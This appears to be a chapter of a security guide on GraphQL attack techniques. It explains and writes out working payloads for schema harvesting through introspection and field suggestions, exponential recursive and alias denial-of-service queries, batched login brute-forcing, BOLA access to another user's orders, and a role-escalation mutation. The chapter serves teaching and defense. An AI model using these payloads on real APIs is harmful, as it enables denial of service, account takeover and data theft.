


# 02. GraphQL Attack Vectors & Mechanics

This chapter details the precise technical mechanics, payload structures, and architectural bypasses used by attackers to exploit GraphQL endpoints. Understanding these low-level mechanics is essential for building effective defense mechanisms.

---

## 1. Introspection Abuse & Schema Harvesting

GraphQL features a built-in introspection system that allows clients to query the schema itself using meta-fields prefixed with double underscores (`__schema`, `__type`, `__typename`).

### The Mechanics of Introspection
When introspection is enabled, an attacker can issue a single payload to extract every type, field, argument, directive, and documentation string defined in the schema:

```graphql
# Introspection Discovery Payload
query FullSchemaIntrospection {
  __schema {
    queryType { name }
    mutationType { name }
    subscriptionType { name }
    types {
      name
      kind
      description
      fields {
        name
        type { name kind ofType { name kind } }
        args { name type { name kind } }
      }
    }
  }
}
```

### Advanced Introspection Evasion: Field Suggestions Leakage
When developers disable full introspection (`introspection: false`), attackers leverage **GraphQL Field Suggestions** (fuzzy string matching). When a query requests a non-existent field, GraphQL engines attempt to assist the developer by suggesting similar valid fields:

```json
// Request Payload:
{ "query": "{ me { passwrd } }" }

// Response Payload (Introspection Disabled):
{
  "errors": [
    {
      "message": "Cannot query field \"passwrd\" on type \"User\". Did you mean \"password\", \"passwordHash\", or \"passcode\"?",
      "locations": [{ "line": 1, "column": 8 }]
    }
  ]
}
```

Using tools like **Clairvoyance**, an attacker can feed a wordlist into invalid query fields and systematically reconstruct the complete GraphQL schema purely by harvesting `"Did you mean ...?"` error messages!



---

## 2. Denial of Service (DoS) via Structural & Recursive Queries

Because GraphQL allows clients to specify the nesting depth of queries, malicious actors can craft queries that cause exponential resource consumption on the server.

### A. Circular Relationship Recursion
If a schema defines bidirectional relationships (e.g., `User` has `Posts`, and `Post` has an `Author` of type `User`), an attacker can nest these selections indefinitely:

```graphql
# Malicious Deep Recursion Payload (Depth = 12)
query RecursiveDoS {
  user(id: "1") {
    posts {
      author {
        posts {
          author {
            posts {
              author {
                posts {
                  author {
                    id
                    email
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

#### Mathematical Resource Exhaustion Formula:
If an object returning a list of $b$ items (branching factor) is nested to depth $d$, the total number of database or resolver executions $N$ grows exponentially according to:

`N = (b^(d+1) - b) / (b - 1)`

> **Example:** If branching factor $b = 10$ items (e.g., 10 posts per user) and depth $d = 8$:
> `N = (10^9 - 10) / 9 = 111,111,110 execution nodes!`
> A single 30-line HTTP request forces the backend server to execute over 111 million database lookups, exhausting CPU, memory, and database connection pools instantly.

### B. Fragment Circular Loops & Directive Multiplication
Attackers can also abuse GraphQL `@include` and `@skip` directives, or inline fragments, to multiply execution costs without deep nesting strings:

```graphql
# Alias Directive Expansion Attack
query DirectiveMultiplication {
  u1: user(id: "1") @include(if: true) { email username }
  u2: user(id: "1") @include(if: true) { email username }
  # ... repeated 5,000 times in a single query payload!
}
```

---

## 3. Batching Attacks & Rate Limit Bypassing

Traditional security controls enforce rate limits based on HTTP request counts (e.g., "100 POST requests per IP per minute"). GraphQL supports two distinct execution batching techniques that completely bypass HTTP request-level rate limiters.

### A. JSON Array Batching
Many GraphQL servers (Apollo Server, Express-GraphQL) support receiving an array of query objects in a single HTTP POST request payload:

```json
// Single HTTP POST request containing 1,000 batched operations
[
  { "query": "mutation { login(username:\"admin\", password:\"123456\") { token } }" },
  { "query": "mutation { login(username:\"admin\", password:\"password\") { token } }" },
  { "query": "mutation { login(username:\"admin\", password:\"welcome1\") { token } }" },
  "... 997 more login attempts ..."
]
```
The HTTP reverse proxy sees **1 request**, while the GraphQL engine executes **1,000 brute-force authentication attempts** sequentially or concurrently!

### B. Field Aliasing Batching
Even if JSON array batching is disabled at the HTTP server level, an attacker can use GraphQL field aliases within a **single operation** to achieve identical brute-force amplification:

```graphql
# Single Operation Field Alias Brute Force Payload
mutation AliasBruteForce {
  attempt_1: login(username: "admin", password: "password123") { token }
  attempt_2: login(username: "admin", password: "adminpassword") { token }
  attempt_3: login(username: "admin", password: "correcthorsebattery") { token }
  # ... thousands of aliases ...
}
```

| Batching Type | Payload Mechanism | Bypass Target | Defense Strategy |
| :--- | :--- | :--- | :--- |
| **Array Batching** | JSON Array of GraphQL query bodies | HTTP Request-based Rate Limiters | Disable HTTP batching in engine config; count individual operation objects. |
| **Field Aliasing** | Unique aliases (`a1: field`, `a2: field`) in 1 query | Batching parser filters & WAFs | Enforce Maximum Field/Alias counts & Dynamic Query Complexity Scoring. |

---

## 4. Broken Field-Level Authorization (BOLA & BFLA)

In REST APIs, authorization is evaluated at the HTTP endpoint level (e.g., `GET /api/v1/users/123/financials`). In GraphQL, authorization must be enforced at the field level within the execution tree.

### A. BOLA via Child Resolvers
Consider a query where top-level access (`me`) is authorized, but nested user lookups fail to verify object ownership:

```graphql
# Attack Payload: BOLA via child field argument manipulation
query LeakOtherUserOrders {
  me {
    id
    username
    # Attacker injects another user's account ID into nested resolver!
    orders(accountID: "VICTIM_ACCOUNT_9982") {
      id
      creditCardLast4
      shippingAddress
    }
  }
}
```
If the `orders` field resolver accepts `accountID` directly from client arguments without checking if `accountID` matches `context.currentUser.accountID`, the victim's order history is returned!

### B. BFLA on Hidden Administrative Mutations
Developers often write administrative utility mutations and assume they are secure because they are excluded from UI components. Introspection or brute-forcing reveals their names:

```graphql
# Attack Payload: Executing administrative mutation without admin privileges
mutation UnauthorizedAccountElevation {
  updateUserRole(
    targetUserId: "ATTACKER_ID_55"
    newRole: "SUPER_ADMIN"
  ) {
    status
    role
  }
}
```
If `updateUserRole` resolver lacks a role check (`context.currentUser.hasRole('ADMIN')`), any authenticated user can elevate their privileges.

---

## 5. GraphQL Subscriptions & WebSocket Vulnerabilities

GraphQL Subscriptions use persistent WebSocket connections (`ws://` or `wss://`) to stream real-time events from server to client.



### Critical Subscription Security Vulnerabilities:
1. **Initial Handshake Bypass**: Authenticating the HTTP upgrade request but failing to validate tokens passed inside the `GQL_CONNECTION_INIT` WebSocket protocol message.
2. **Stale Connection Hijacking**: Tokens expire during an active long-lived WebSocket session, but the server continues pushing authorization-sensitive event streams without periodic token re-verification.
3. **Un-throttled Stream Exhaustion**: A client subscribing to high-frequency mutations (e.g., `subscription { allSystemLogs }`) can crash the server's event bus or client connection handlers by triggering rapid state changes.

---

*Next Chapter: [03. Code Examples & Attack Scenarios →](03-code-examples.md)*
